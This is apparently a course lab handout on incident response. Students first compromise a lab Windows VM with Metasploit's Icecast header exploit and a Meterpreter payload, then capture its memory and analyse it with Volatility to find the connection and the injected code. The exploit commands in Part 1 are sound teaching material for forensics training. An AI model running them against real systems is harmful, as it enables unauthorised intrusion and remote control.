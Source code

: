 ```yaml
---
title: "Activity: Incident response with Volatility memory analysis"
description:
include_toc: true
slug: volatility
---
```


# Scenario

Consider the following scenario: one of your company's production servers has made an outbound connection to an IP address, which is abnormal behavior. Your task is to investigate what is going on.

# Part 1: Exploit Windows via Icecast Vulnerability

First, you'll play the role of the attacker. Compromise the Windows VM using the Icecast vulnerability in Metasploit.

## Start Icecast as admin

1.  Launch the Windows virtual machine. Log in to it as user `Labuser`,
    password `Passw0rd!`.

    If you are asked to provide a reason for an unexpected shutdown, you can
    ignore (cancel) this dialog. It is a Windows Server logging feature.

1.	On Windows desktop, right-click the "Icecast2 Win32" icon.
    <span class='badge badge-danger'>Important!</span> Select “Run as administrator.”
    If any warning message pops up, click “yes”.

    Running as Administrator will change the permissions that are obtained when
    the program is exploited.
    
2.	In the Icecast window that appears, click the button “Start server.”

    **Note**: The Icecast server is configured by default to a max of 5 connections.
    Each time you exploit the Icecast server, the connection count will tick up
    by one. If you use up all connections, simply kill and restart the Icecast server.

## Start msfconsole

In Kali, from a terminal, enter:

    msfconsole

## Finding and using an Icecast exploit

4.  From the `msf >` prompt, try:

        search icecast

5.  In the search output, you should see an exploit related to `icecast` called `exploit/windows/http/icecast_header`. Use it:

        use exploit/windows/http/icecast_header

    <div class='alert alert-info'><strong>Note:</strong> You can press the tab key within Metasploit to complete a module or command name you are typing. This makes entering commands in Metasploit faster. If you push the tab key twice it should show you all possible options for directory you are in.</div>

6.	Your msfconsole prompt should now look like this:

        msf exploit(icecast_header) >

    Indicating that the `icecast_header` module is loaded.

7.	Set the remote host to the Windows VM IP address:

        set rhost 192.168.56.100

10.	Meterpreter should already be selected as the payload. To verify, type:

        show options

13.	Set the "local host" variable to Kali's IP address on the infosec-net adapter.
    To set the local host variable, type

        set lhost 192.168.56.101

    A `lhost` was likely set for you by default -- but it may be an address for
    an incorrect interface! Make sure this setting is correct.

    <div class='alert alert-info'><strong>Note:</strong> Remember that you can
    easily check your IP in Unix/Linux by typing <code>ifconfig</code> or
    <code>ip</code> from within Metasploit.</div>

    {: #set-lhost-iface-name }
    **Note!** msfconsole allows you to specify an interface name as the `lhost`.
    The interface name for infosec-net is `virbr1`. You could set this as follows:

        set lhost virbr1

    Type `show options` to see that the variable has been set.

14.	With all options set, now it’s time to <span class='badge badge-danger'>
    <i class='fa fa-rocket'></i> launch the exploit!</span> Type:

        exploit

    (Or equivalently, `run`, but that's less fun.)

15. You should now be presented with the `meterpreter >` prompt.

16. Get the process ID by typing `getpid`.

# Part 2: Create a memory dump from the Windows VM

In this section, you'll use a digital forensics tool, FTK Imager, to make a copy or "image" of the Windows VM RAM.

1. On the Windows VM, create a new folder called "Evidence."

2. Right-click the folder and select "Properties." Select the "Sharing" tab, and click "Share." On the next pop-up Window, click "Share." Click "Done" and "Close."

2. From inside the Windows VM, open a web browser and [download the FTK Imager zip file]( {{ '/assets/files/FTK_Imager.zip' | relative_url }}). 

3. In Windows, extract the zip file, and run `FTK Imager.exe` from the extracted directory.

4. In FTK Imager, from the "File" menu, select "Capture memory." For the destination path, select the "Evidence" folder you created. Click "Capture Memory."

5. In Kali, browse to the shared "Evidence" folder by opening the "Home" folder on the desktop. In the URL bar of the file explorer window, type: 

        smb://192.168.56.100
        
    or 
        
        smb://VAGRANTVM
	
    Browse to the "Evidence" folder you created on the Windows desktop. E.g., at `C:\Users\LabUser\Desktop\Evidence`.

6. Log in with user `labuser` and password `Passw0rd!`

7. Drag the `memdump.mem` file created by FTK Imager to the desktop of Kali.

# Part 3: Use Volatility to examine the memory dump

## Install Volatility

1. Open a terminal and run the command:

        git clone https://github.com/volatilityfoundation/volatility3.git

2. Change to the `volatility3` directory.

3. Run the command:

        pip3 install -r requirements.txt

## Examine the memory dump with Volatility

1. From the `volatility3` directory, run the following command:

        python3 vol.py -f ~/Desktop/memdump.mem windows.info

	This should display information about the memory dump file.

2. Next, in the scenario described at the top of this document, you have been alerted that this server has made an unusual outbound connection. Let's investigate. Run the following command:

        python3 vol.py -f ~/Desktop/memdump.mem windows.netscan

	This outputs the status of network connections for the Windows VM at the time that the memory dump was created. This represents a snapshot of network activity at this point in time.

3. Look for a line that shows an `ESTABLISHED` connection. What is the remote IP address for this connection? What is the remote port address? What is the name of the executable associated with this connection? What is the process ID (PID) for this executable?

	Note that port `4444` is the default outbound port for Meterpreter.

4. Get a list of running processes with the following command:

        python3 vol.py -f ~/Desktop/memdump.mem windows.pslist

	Can you locate the executable name and process ID?

5. Now we will use Volatility to scan the process ID for Icecast to look for hidden malicious code injected into the Icecast proces:

        python3 vol.py -f ~/Desktop/memdump.mem windows.malfind --pid [the process ID you identfied] --dump

	Volatility will output portions of memory associated with the Icecast PID that it believes is running malicious code.

	The `--dump` option will cause Volatility to write suspected malicious portions of memory to `.dmp` memory dump files.

6. Verify whether the `.dmp` files contain malware by opening virustotal.com in a browser in Kali and uploading each `.dmp` file for analysis. Select `Choose file` and then `Confirm upload`. 

	Virus Total will run the `.dmp` file through several dozen malware scanners. Do any of the scanners report that something is amiss? What do the `.dmp` files contain?
